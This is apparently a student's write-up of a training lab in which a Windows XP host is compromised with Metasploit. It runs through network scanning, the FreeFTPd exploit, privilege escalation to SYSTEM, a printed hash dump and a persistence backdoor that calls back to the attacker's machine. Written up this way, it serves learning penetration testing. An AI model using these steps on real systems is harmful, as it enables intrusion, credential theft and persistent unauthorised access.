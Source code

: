 # Metasploit 

> Makayla Ferrell | July 28th, 2021

### Steps 

1. Connect to VPN 
```
sudo openvpn <filename> 
```
2. Find Network IP range 
```
ip a 
```
192.168.99.100/24

3. Find active hosts with fping 
```
fping -a -g 192.168.99.100/24 2>/dev/null 
```
The target is 192.168.99.12

4. Nmap scan target host 
```
nmap -sC -sV 192.168.99.12 
nmap –script smb-check-vulns.nse –script-args=unsafe=1 -p445 host 
```
ports: 21/ftp 22/ssh 135/tcp 139/tcp 445/microsoftds 3389/mswbtserver 

5. Find Vulnerable service 
Ftp is vulnerable to anonymous login version FreeFTPd 1.o 

6. Launch Metasploit 
```
sudo apt update 
service postgresql start 
service metasploit start ? 
msfconsole 
```
7. Find exploit for machine 
```
msf> search freeftpd 
msf> use exploit/windows/ftp/freeftpd_pass
```
8. Set options and payload 
```
show options 
set RHOST 192.168.99.12 
set LHOST 192.168.99.100
```
9. Exploit 
```
exploit 
```

10. Get information 
meterpreter > sysinfo
Computer        : ELS-WINXP
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
 
meterpreter > getuid
Server username: ELS-WINXP\ftp
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

11. get hashes 
meterpreter > hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
eLSAdmin:1003:aad3b435b51404eeaad3b435b51404ee:87289513bddc269f9bcb24d74864beb2:::
ftp:1004:4ff1ab31fc4b0ebdaad3b435b51404ee:9865c4bdcd9578a380297c5095e6c852:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:a88f7de3e682d17fea34bd03086620b5:2b07e52daf608f50d4cd9506c5b0220d:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:9f79c84005db73e0122f424022f8dbc0:::

12. Find congrats.txt file 
meterpreter > search -f congrats.txt
Found 1 result...
    c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt (64 bytes)
meterpreter > cat Congrats.txt
Congratulations! You have successfully exploited this machine!

13. obtain backdoor 
```
meterpreter> background  (session 1)
sessions -l 
msf> use exploit/windows/local/persistence 
show options 
msf6 exploit(windows/local/persistence) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/persistence) > set LHOST 192.168.99.100
LHOST => 192.168.99.100
msf6 exploit(windows/local/persistence) > set DisablePayloadHandler False
DisablePayloadHandler => False
msf6 exploit(windows/local/persistence) > set STARTUP SYSTEM
STARTUP => SYSTEM
msf6 exploit(windows/local/persistence) > set LPORT 5555
LPORT => 5555
msf6 exploit(windows/local/persistence) > exploit

```